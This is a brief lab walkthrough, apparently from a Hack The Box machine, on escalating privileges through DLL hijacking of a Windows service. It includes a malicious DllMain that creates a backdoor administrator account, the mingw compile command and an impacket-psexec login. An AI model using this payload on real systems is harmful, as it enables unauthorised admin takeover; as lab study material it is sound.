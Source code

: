 # DLL Hijacking

In this example, we check running services to discover the unknown service `BetaService`. We don't have write permissions for the related `.exe` so we cannot binary hijack, instead we will attempt to DLL hijack.

To do this, we first need to open process explorer and restart the service with the following command

```powershell
Restart-Service BetaService
```

We can then discover the service is searching for `myDLL.dll` in a variety of paths that we then check

```powershell
$env:path
```

In this example we have write permissions to `Documents` which is the first place the service looks for `myDLL.dll` in.

We can use the following example as a template for our DLL injection

```cs
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

We can then make the following modifications to leverage the DLL injection vulnerability

```cs
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user Mojo Password123! /add");
  	    i = system ("net localgroup administrators Mojo /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

And compile it with `mingw32`

```bash
x86_64-w64-mingw32-gcc myDLL.cpp -o myDLL.dll -shared
```

After uploading `myDLL.dll` to documents, we can then simply restart the service again and see `mojo` pop up as a member of the group `administrators`

```powershell
Restart-Service BetaService
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```

We can now login to the machine as `nt authority\system` with `impacket-psexec`

```bash
impacket-psexec 'analysis.htb/Mojo:Password123!@10.129.189.54'
```
